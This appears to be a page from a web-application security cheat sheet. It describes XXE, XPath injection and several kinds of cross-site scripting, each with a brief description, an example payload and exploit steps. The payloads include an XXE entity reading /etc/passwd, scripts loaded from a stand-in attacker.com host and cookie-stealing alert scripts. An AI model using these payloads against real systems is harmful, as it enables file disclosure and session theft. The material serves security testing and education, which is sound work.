 ### XXE (Full)
- **Description**: Full XML External Entity exploitation allows file read or network interactions.
- **Example**: `<!ENTITY xxe SYSTEM "file:///etc/passwd">`.
- **Exploit Steps**:
  1. Submit an XML payload with an external entity.
  2. Observe server response for sensitive data.

### XXE (Limited)
- **Description**: Limited XXE allows only basic entity resolution.
- **Example**: Including external resources like `http://attacker.com`.
- **Exploit Steps**:
  1. Inject XML with external entities.
  2. Monitor outbound requests from the server.

### XPath/XQuery Injection
- **Description**: Manipulating XPath queries to retrieve unauthorized data.
- **Example**: `username[.="admin" or "1=1"]`.
- **Exploit Steps**:
  1. Test input fields with special characters used in XPath.
  2. Extract unauthorized information from XML data.

---

## Cross-Site Scripting (XSS)

### Blind XSS
- **Description**: Payloads trigger XSS in environments you cannot directly observe.
- **Example**: Injecting `<script>alert(document.cookie)</script>` into logs.
- **Exploit Steps**:
  1. Inject XSS payloads into input fields stored server-side.
  2. Use out-of-band tools like Burp Collaborator to capture execution.

### Cross-Site Scripting Inclusion (XSSI)
- **Description**: Including malicious scripts from external sources.
- **Example**: `<script src="http://attacker.com/malicious.js"></script>`.
- **Exploit Steps**:
  1. Host a malicious script on your server.
  2. Include the script via vulnerable parameters.

### DOM-based XSS
- **Description**: Client-side JavaScript processes attacker-controlled input unsafely.
- **Example**: `document.write(location.hash)` with a malicious hash.
- **Exploit Steps**:
  1. Identify DOM sinks like `innerHTML`.
  2. Craft a malicious payload in the URL fragment.

### Persistent XSS
- **Description**: Malicious scripts are stored on the server and executed by users.
- **Example**: Injecting `<script>alert(1)</script>` into user profiles.
- **Exploit Steps**:
  1. Inject the payload into fields that persist data.
  2. Trigger the payload by visiting the affected page.
